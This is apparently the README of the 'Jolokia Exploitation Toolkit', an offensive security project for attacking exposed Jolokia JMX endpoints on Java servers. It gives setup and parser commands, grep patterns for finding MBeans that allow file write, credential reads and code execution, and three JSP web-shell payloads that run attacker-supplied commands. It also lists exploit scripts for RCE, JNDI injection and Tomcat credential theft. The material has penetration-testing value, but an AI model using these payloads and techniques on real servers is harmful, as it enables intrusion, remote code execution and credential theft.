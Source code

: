 # jolokia-exploitation-toolkit

Jolokia Exploitation Toolkit (JET) helps exploitation of exposed jolokia endpoints. 

![jolokia](jolokia.png)


## Core concept

Jolokia is a protocol bridge that enables users to interact with MBeans (JMB) through HTTP. 
This endpoint "exposed JMX features" which are often dangerous, this implies that /jolokia should never be exposed, and if used internally (loopback), should be protected by an authentication mechanism. 

Doc says... :)

> Jolokia is a JMX-HTTP bridge giving an alternative to JSR-160 connectors. It is an agent based approach with support for many platforms. In addition to basic JMX operations it enhances JMX remoting with unique features like bulk requests and fine grained security policies.

## Where to find jolokia

1. Java projects
1. /jolokia
1. /actuator/jolokia
1. ???


## Test setup

You can either startup a tomcat server (docker || docker-compose) and install the [jolokia war](https://jolokia.org/download.html),\
Or run `docker run --rm -it --net=host bodsch/docker-jolokia` and go with the flow ~


## Setup & Usage

```bash
# Setup with virtualenv
virtualenv -p python3 .venv && source .venv/bin/activate
pip install -r requirements.txt

# Use jolokia-parser.py with remote url
python jolokia-parser.py http://127.0.0.1/jolokia | tee jolokia-parsed.lst

# Or use jolokia-parser.py with local json
curl http://127.0.0.1/jolokia/list -o jolokia-list.json
python jolokia-parser.py jolokia-list.json | sed 's#^/jolokia#http://127.0.0.1/jolokia#g' | tee jolokia-parsed.lst

# Quickly find the cool MBeans
grep -iP 'compilerDirectivesAdd|name=AccessLogValve,type=Valve/pattern|createStandardHost|jfrStart|vmLog|read/Users:database=UserDatabase|MBeanFactory|reloadByURL|jvmtiAgentLoad|environmentManager|log4j2' jolokia-parsed.lst
# Quickly find information leaks, paths, user, etc
grep -iP 'Runtime/(BootClassPath|ClassPath|InputArguments|LibraryPath|SystemProperties)' jolokia-parsed.lst
```

The expected output in `jolokia-parsed.lst` is the following:

```
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationName
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/MBeanServerId
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVersion
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVersion
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVendor
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationName
http://127.0.0.1/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVendor
[+] CLASS : javax.management.MBeanServerDelegate
[+] DESC  : Represents  the MBean server from the management point of view.
[+] DESC  : getRecordingOptions // returns javax.management.openmbean.TabularData
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/getRecordingOptions/$long
[+] DESC  : takeSnapshot // returns long
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/takeSnapshot
[+] DESC  : closeRecording // returns void
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/closeRecording/$long
[+] DESC  : newRecording // returns long
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/newRecording
[+] DESC  : setRecordingSettings // returns void
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/setRecordingSettings/$long/$javax.management.openmbean.TabularData
[+] DESC  : openStream // returns long
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/openStream/$long/$javax.management.openmbean.TabularData
[+] DESC  : cloneRecording // returns long
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/cloneRecording/$long/$boolean
[+] DESC  : setRecordingOptions // returns void
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/setRecordingOptions/$long/$javax.management.openmbean.TabularData
[+] DESC  : copyTo // returns void
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/copyTo/$long/$java.lang.String
[+] DESC  : startRecording // returns void
http://127.0.0.1/jolokia/exec/jdk.management.jfr:type=FlightRecorder/startRecording/$long
[...]
```


## Java & JSP payloads

🚧 ADD AUTH TO YOUR JSP 🚧

```jsp
<% Runtime.getRuntime().exec(new String[] { "sh", "-c", "cmd" }); %>
<%=Runtime.getRuntime().exec(request.getParameter(String.valueOf(42))).getInputStream()%>
<%= new java.util.Scanner(Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()).useDelimiter("RESULT").next() %>
```

## Contributors & Content

- [@TheLaluka](https://twitter.com/TheLaluka)
    - jolokia-parser.py | Convert /jolokia/list or json blob to human-readable urls
    - exploits/file-write-to-rce-vhost-jfr.md | File read and file write to RCE by deploying a vhost with MBeanFactory/createStandardHost and DiagnosticCommand/jfrStart
    - exploits/file-read-compilerdirectivesadd.md | File read with DiagnosticCommand/compilerDirectivesAdd
    - exploits/file-write-to-rce-vmLog.md | File write to RCE with DiagnosticCommand/vmLog
- [@Coiffeur0x90](https://twitter.com/Coiffeur0x90)
    - exploits/file-write-to-rce-valve.py | File write with Catalina:host=localhost,name=AccessLogValve (exploit)
    - exploits/file-write-to-rce-valve.md | File write with Catalina:host=localhost,name=AccessLogValve (article)
    - exploits/info-leak-tomcat-creds.py | Tomcat credentials leak with Users:database=UserDatabase,type=UserDatabase
- [@mpgn_x64](https://twitter.com/mpgn_x64)
    - exploits/jndi-logback.md | XXE to RCE with ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL
- [RicterZ](https://github.com/RicterZ)
    - exploits/jndi-injection-MBeanFactory.py | RCE with JNDI Injection (Tomcat EL) with MBeanFactory
- [@_lely___](https://twitter.com/_lely___)
    - exploits/jndi-ldap-target.md | RMI injection with jolokia proxy url handling
- [@JJaaskela](https://twitter.com/JJaaskela)
    - exploits/file-write-to-rce-jar-load-jvmtiAgentLoad.py | jvmtiAgentLoad to RCE with JAR or SO/DLL load
- [@mbadanoiu](https://github.com/mbadanoiu)
    - exploits/log4jolokia.py | Log4J configuration reload to file read/write & RCE with tricks!
- You *SHOULD* be here? Let me know and I'll fix that!


## Sources & References

- https://jolokia.org/
- https://thinkloveshare.com/hacking/shells_with_jolokia_exploitation_toolkit/
- https://thinkloveshare.com/en/hacking/ssrf_to_rce_with_jolokia_and_mbeans/
- https://therealcoiffeur.github.io/c11011
- https://github.com/mpgn/Spring-Boot-Actuator-Exploit
- https://www.cvedetails.com/vulnerability-list/vendor_id-14175/Jolokia.html
- https://ricterz.me/posts/2019-03-06-yet-another-way-to-exploit-spring-boot-actuators-via-jolokia.txt
- https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html
- https://blog.it-securityguard.com/how-i-made-more-than-30k-with-jolokia-cves/
- https://github.com/mbadanoiu/jvmtiAgentLoad-Exploit
- https://github.com/mbadanoiu/log4jolokia
- https://blog.pyn3rd.com/2022/11/15/A-New-Way-of-Jolokia-Remote-Code-Execution/